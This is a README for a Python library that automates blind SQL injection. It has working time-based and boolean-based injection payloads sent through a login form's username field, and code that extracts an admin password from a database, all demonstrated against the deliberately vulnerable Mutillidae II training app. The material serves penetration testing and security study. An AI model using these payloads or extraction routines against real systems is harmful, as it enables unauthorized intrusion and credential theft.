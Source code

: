 # sqlinja
SqlInja is a Python library designed to automate exploitation of SQL blind injection (time-based or boolean-based). It includes functions for generating payloads, sending requests, and analyzing responses.

The extraction use [Binary search algorithm](https://en.wikipedia.org/wiki/Binary_search_algorithm) for define which candidate is the good value.

## Usages
(the examples are for Login of [mutillidae II](https://github.com/webpwnized/mutillidae) )

### Define the function who execute the requests

This fuction must match to `(request: str) -> bool`.

This function include then target specific logic (encodage, token, method, ...)

##### Time Based Injection 

```python
def exec_request(request: str, sleep_duration:int) -> bool:
    url = "http://meta.local/mutillidae/index.php?page=login.php"
    datas = {
        'username': f"test' AND {request} #",
        'password': "pass",
        'login-php-submit-button': "Login",
    }
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
    res = requests.post(url, data=datas, headers=headers)
    return res.elapsed.seconds >= sleep_duration
```
##### Boolean Based Injection

```python
def exec_request(payload: str, sleep_duration:int) -> bool:
    url = "http://meta.local/mutillidae/index.php?page=login.php"
    datas = {
        'username': f"test' OR {payload} # ",
        'password': "pass",
        'login-php-submit-button': "Login",
    }
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
    res = requests.post(url, data=datas, headers=headers, allow_redirects=False)
    return res.status_code == 302
```

### Check if target is vulnerable for payload

```python
helper = SqlInja(MySqlConfig(), exec_request, MySqlConfig.payload_int_time)
# Is target vulnerable ?
if(helper.check("SELECT 1")):
    print("Target is Vulnerable")
else:
    print("Target is not Vulnerable")
    exit()
```

### Extract Data from a cell 
```python
# extract pass
# the expected values are ASCII alphanum
candidates = SqlInja.string_to_candidates(string.ascii_letters + string.digits)
helper.prepare_new(candidates, template=MySqlConfig.payload_str_time)
result = helper.extract_cell("SELECT password FROM accounts WHERE username = 'admin' LIMIT 0,1")
print("pass for 'admin' : ", "".join(map(chr, result)))
```

More examples in 'example' folder

## Contributing

Contributions are welcome! If you find a bug or have a feature request, please create an issue or submit a pull request.

## Legal disclaimer

Use of this script for attacking a target without mutual consent is illegal. It's is the end user responsibility to obey all applicables laws for his location Developers assume no lisibility and are not responsible for any misuse or domage caused by this program
